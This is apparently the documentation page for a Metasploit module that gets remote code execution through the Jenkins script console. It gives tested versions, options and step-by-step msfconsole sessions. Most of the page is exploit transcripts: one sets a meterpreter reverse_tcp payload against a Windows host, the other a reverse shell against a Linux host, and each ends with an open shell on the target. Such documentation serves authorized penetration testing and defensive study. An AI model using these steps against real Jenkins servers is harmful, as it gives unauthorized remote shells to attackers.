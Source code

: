 ## Vulnerable Application

  Jenkins can be downloaded from [jenkins.io](https://jenkins.io/) where
  binaries are available for a variety of operating systems. Both LTS and weekly
  builds are available.

  Default settings have the script console enabled and require a valid user
  account in order to access it. A known account can be used with this module by
  setting the `USERNAME` and `PASSWORD` options.

  This exploit has been tested against the following Jenkins versions:
  * 2.411
  * 2.410
  * 2.409
  * 2.401.1
  * 2.346.3
  * 2.103
  * 1.565

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: ```use exploit/multi/http/jenkins_script_console```
  4. Do: ```set RHOST [target host]```
  5. Do: ```set TARGET [target id]```
  6. Do: ```exploit```
  7. You should get a shell.

## Options

  **TARGETURI**

  The path to the target instance of Jenkins.

  **USERNAME**

  A username to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication.

  **PASSWORD**

  A password to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication and you aren't using an API_TOKEN (see below).

  **API_TOKEN**

  An API token to an account that has access to the script console. This is only
  necessary if the Jenkins instance has been configured to require
  authentication and you aren't using a PASSWORD (see above).

## Scenarios

  Example usage against a Windows 7 SP1 x64 bit target running Jenkins 2.19.1.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf exploit(jenkins_script_console) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_script_console) > set USERNAME steiner
  USERNAME => steiner
  msf exploit(jenkins_script_console) > set PASSWORD I<3msf!
  PASSWORD => I<3msf!
  msf exploit(jenkins_script_console) > set RHOST 192.168.254.126
  RHOST => 192.168.254.126
  msf exploit(jenkins_script_console) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_script_console) > set PAYLOAD windows/meterpreter/reverse_tcp
  PAYLOAD => windows/meterpreter/reverse_tcp
  msf exploit(jenkins_script_console) > set LHOST 192.168.254.132
  LHOST => 192.168.254.132
  msf exploit(jenkins_script_console) > exploit

  [*] [2016.10.29-18:43:07] Started reverse TCP handler on 192.168.254.132:4444
  [*] [2016.10.29-18:43:07] Checking access to the script console
  [*] [2016.10.29-18:43:07] Logging in...
  [*] [2016.10.29-18:43:07] Using CSRF token: '9623d245b9d60b5ceda72e2d3613431c' (Jenkins-Crumb style)
  [*] [2016.10.29-18:43:07] 192.168.254.126:8080 - Sending command stager...
  [*] [2016.10.29-18:43:08] Command Stager progress -   2.06% done (2048/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   4.11% done (4096/99626 bytes)
  [*] [2016.10.29-18:43:08] Command Stager progress -   6.17% done (6144/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -   8.22% done (8192/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  10.28% done (10240/99626 bytes)
  [*] [2016.10.29-18:43:09] Command Stager progress -  12.33% done (12288/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  14.39% done (14336/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  16.45% done (16384/99626 bytes)
  [*] [2016.10.29-18:43:10] Command Stager progress -  18.50% done (18432/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  20.56% done (20480/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  22.61% done (22528/99626 bytes)
  [*] [2016.10.29-18:43:11] Command Stager progress -  24.67% done (24576/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  26.72% done (26624/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  28.78% done (28672/99626 bytes)
  [*] [2016.10.29-18:43:12] Command Stager progress -  30.84% done (30720/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  32.89% done (32768/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  34.95% done (34816/99626 bytes)
  [*] [2016.10.29-18:43:13] Command Stager progress -  37.00% done (36864/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  39.06% done (38912/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  41.11% done (40960/99626 bytes)
  [*] [2016.10.29-18:43:14] Command Stager progress -  43.17% done (43008/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  45.23% done (45056/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  47.28% done (47104/99626 bytes)
  [*] [2016.10.29-18:43:15] Command Stager progress -  49.34% done (49152/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  51.39% done (51200/99626 bytes)
  [*] [2016.10.29-18:43:16] Command Stager progress -  53.45% done (53248/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  55.50% done (55296/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  57.56% done (57344/99626 bytes)
  [*] [2016.10.29-18:43:17] Command Stager progress -  59.61% done (59392/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  61.67% done (61440/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  63.73% done (63488/99626 bytes)
  [*] [2016.10.29-18:43:18] Command Stager progress -  65.78% done (65536/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  67.84% done (67584/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  69.89% done (69632/99626 bytes)
  [*] [2016.10.29-18:43:19] Command Stager progress -  71.95% done (71680/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  74.00% done (73728/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  76.06% done (75776/99626 bytes)
  [*] [2016.10.29-18:43:20] Command Stager progress -  78.12% done (77824/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  80.17% done (79872/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  82.23% done (81920/99626 bytes)
  [*] [2016.10.29-18:43:21] Command Stager progress -  84.28% done (83968/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  86.34% done (86016/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  88.39% done (88064/99626 bytes)
  [*] [2016.10.29-18:43:22] Command Stager progress -  90.45% done (90112/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  92.51% done (92160/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  94.56% done (94208/99626 bytes)
  [*] [2016.10.29-18:43:23] Command Stager progress -  96.62% done (96256/99626 bytes)
  [*] [2016.10.29-18:43:24] Command Stager progress -  98.67% done (98304/99626 bytes)
  [*] [2016.10.29-18:43:24] Sending stage (957999 bytes) to 192.168.254.126
  [*] [2016.10.29-18:43:24] Command Stager progress - 100.00% done (99626/99626 bytes)
  [*] Meterpreter session 1 opened (192.168.254.132:4444 -> 192.168.254.126:49258) at 2016-10-29 18:43:26 -0400

  meterpreter > sysinfo
  Computer        : PWNME-PC
  OS              : Windows 7 (Build 7601, Service Pack 1).
  Architecture    : x64 (Current Process is WOW64)
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/win32
  meterpreter >

  ```

  Example usage against a Linux x64 bit target running Jenkins 2.46.3.

  ```
  msf > use exploit/multi/http/jenkins_script_console
  msf exploit(jenkins_script_console) > set RHOST 172.17.0.1
  RHOST => 172.17.0.1
  msf exploit(jenkins_script_console) > set RPORT 8080
  RPORT => 8080
  msf exploit(jenkins_script_console) > set TARGETURI /
  TARGETURI => /
  msf exploit(jenkins_script_console) > set USERNAME admin
  USERNAME => admin
  msf exploit(jenkins_script_console) > set API_TOKEN 24e0b80d009ed12590ff85866d88c00d
  API_TOKEN => 24e0b80d009ed12590ff85866d88c00d
  msf exploit(jenkins_script_console) > set TARGET 1
  TARGET => 1
  msf exploit(jenkins_script_console) > set PAYLOAD linux/x86/shell/reverse_tcp
  PAYLOAD => linux/x86/shell/reverse_tcp
  msf exploit(jenkins_script_console) > set LHOST 10.0.2.4
  LHOST => 10.0.2.4
  msf exploit(jenkins_script_console) > exploit

  [*] Started reverse TCP handler on 10.0.2.4:4444 
  [*] Checking access to the script console
  [*] Authenticating with token...
  [*] Using CSRF token: 'd41639a6f5721760a8ee3df5d6a71eec' (Jenkins-Crumb style)
  [*] 172.17.0.1:8080 - Sending Linux stager...
  [*] Sending stage (36 bytes) to 172.17.0.2
  [*] Command shell session 1 opened (10.0.2.4:4444 -> 172.17.0.2:53962) at 2017-06-19 16:55:42 -0500
  [!] Deleting /tmp/AsqL5Pg payload file

  whoami
  jenkins
  id
  uid=1000(jenkins) gid=1000(jenkins) groups=1000(jenkins)
  uname -a
  Linux b4b4e715101e 4.4.0-79-generic #100-Ubuntu SMP Wed May 17 19:58:14 UTC 2017 x86_64 GNU/Linux
  ```
